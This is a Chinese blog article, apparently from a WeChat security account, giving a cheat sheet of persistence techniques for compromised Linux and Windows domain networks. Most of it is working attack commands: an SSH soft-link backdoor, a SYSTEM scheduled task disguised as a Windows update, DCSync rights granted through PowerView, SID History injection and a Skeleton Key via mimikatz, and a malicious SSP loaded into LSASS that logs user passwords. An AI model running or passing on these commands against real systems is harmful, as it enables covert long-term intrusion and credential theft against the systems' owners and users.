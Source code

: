 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk0ODY1NzEwMA==&mid=2247492268&idx=1&sn=c26d20b9d0536f81ba6365accbbce35b

#  内网渗透-权限维持  
原创 摆烂的beizeng  土拨鼠的安全屋   2025-06-21 23:33  
  
# 内网渗透—权限维持  
# Linux权限维持  
## SSH软连接  
  
1、在/etc/ssh/sshd_config文件中设置UsePAM 为yes。启用PAM认证机制。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPp5eIJh2c90kUCibklibk4S6bRxylEzPp71yfNibQHia3InhnhPb3AqrZMA/640?wx_fmt=png&from=appmsg "")  
  
对应文件里包含"auth sufficient pam_rootok.so"配置。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfP8Jq06TlCyQRRXibwJEf0C37GSOmMjyqDFPXNKNV7mbRgkicaG4icDkw7g/640?wx_fmt=png&from=appmsg "")  
  
使用如下后门简历软连接  

```
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=5555;

```

# windows权限维持  
  
1、计划任务—-schtasks  

```
/f 阻止确认消息。不警告就删除任务。
/tn &#34;Windows Server Update&#34; 名称
/tr TaskRun          指定任务运行的程序或命令。
/mo modifier 指定任务在其计划类型内的运行频率。默认 1 次。若 n > 1 则是每 n （单位） 运行一次
/ru 使用指定用户帐户的权限运行任务
/st StartTime
/sc schedule         指定计划类型。有效值为 MINUTE、HOURLY、DAILY、WEEKLY、MONTHLY、ONCE、ONSTART、ONLOGON、ONIDLE。

```


```
schtasks /create /RL HIGHEST /F /tn &#34;Windows Server Update&#34; /tr &#34;C:\2.exe&#34; /sc DAILY /mo 1 /ST 09:00 /RU SYSTEM

```

  
创建计划任务  
  
名字为(tn)："Windows Server Update"  
  
开始时间(/ST)：09:00  
  
指定运行时间单位(/sc /mo)：某个时间段运行多少次  
  
以某个用户的权限运行：/RU  
  
运行的文件：/tr  
  
/F 强制删除该任务，而且如果指定的任务当前正在运行，则抑制警告。（很重要）  
  
RL表示作业级别，一般设置最高，为HIGHEST  
# 域内权限维持  
## 授予普通用户Dscync权限  
  
1、首先使用普通用户导出域内用户hash  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPr7iceF1OyCAw343xE71DVy3ybticT2pm6dNUy0SWib6aEToL2fKUqpIFA/640?wx_fmt=png&from=appmsg "")  
  
权限不足  
  
2、使用高权限用户授予用户Dscync权限。  

```
Add-DomainObjectAcl -TargetIdentity &#34;DC=htb,DC=com&#34; -PrincipalIdentity gongxinao -Rights DCSync -Verbose

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPj1YUPFguodFKcuaZlI8LPYezgIiahlMEHSe0YickGfVD3grfk8l2x27Q/640?wx_fmt=png&from=appmsg "")  
  
3、导出域内hash-无需提升管理员权限，使用当前域用户即可。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPb3SPibKicXpfyAEklMqxib1OJ7nyQ5dMBMvTV3v3AKzJGqgM2docqUFkg/640?wx_fmt=png&from=appmsg "")  
## SID权限维持  
  
SID即安全表示符。  
  
SIDHistroy的作用就是在跨域迁移的过程中，保持域用户在之前域的权限。即域用户的sid变了之后，之前的sid会变成sid-histroy。  
  
如果将普通用户的SID History设置为域管理员的sid，那么普通用户可以拥有域管理员的权限。  
  
获取域用户的sid-history  

```
Get-ADUser xiaoli -Properties sidhistory

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPV0tvu19MWmw4bysu3tkr3riakMmKn5F1yOFicrRyU0602t7PrMJeLIvA/640?wx_fmt=png&from=appmsg "")  
  
获取域管理员的sid  

```
Get-ADUser administrator -Properties sidhistory

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPRAoHL4AuCCMoEv5zdRtoO0n0DMZrDyCIYCsymg4r7WEPgg5psC2kDQ/640?wx_fmt=png&from=appmsg "")  
  
使用minikazi将域管理员的sid授予域用户xiaoli的sid-histroy。  

```
privilege::debug
sid::patch
sid::add /sam:ming /new:administrator

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPOJqxUc0hicIJVldWUdrhKJ5lGn4IdSJs8zJLGAriaHQc6Qm21wUf251g/640?wx_fmt=png&from=appmsg "")  
  
此时xiaoli这个用户可以直接获取域管理员权限。  
  
获取域中具有sidhistroy属性的用户。  

```
Set-ExecutionPolicy Bypass -Scope Process
. .\PowerView.ps1
Get-DomainUser | select sidhistory,cn

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPVD951loPu998iaqakoRs7ibZKbfXsiacDc5xeC7NIibJSIwezsuOcHUxeg/640?wx_fmt=png&from=appmsg "")  
# SSP权限维持  
  
将恶意dll加载入lsass.exe进程中，会在对应目录下生成文件记录用户密码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfP3M3zWpVvwFXHXoxHkqibxaNdtxCDGlXRDtK8dlEku9XdgnsQzMV5biaA/640?wx_fmt=png&from=appmsg "")  

```
mimikatz privilege::debug
mimikatz misc::memssp
type C:\Windows\System32\mimilsa.log

```

  
或者直接修改注册表  

```
copy mimilib.dll %systemroot%\system32

reg query hklm\system\currentcontrolset\control\lsa\ /v &#34;Security Packages&#34; 

reg add &#34;hklm\system\currentcontrolset\control\lsa\&#34; /v &#34;Security Packages&#34; /d &#34;kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib&#34; /t REG_MULTI_SZ

```

# Skeleton Key  
  
添加万能密码。  

```
privilege::debug
misc::skeleton

```

  
Skeleton Key只是给所有账户添加了一个万能密码，无法修改账户的权限。  
  
  
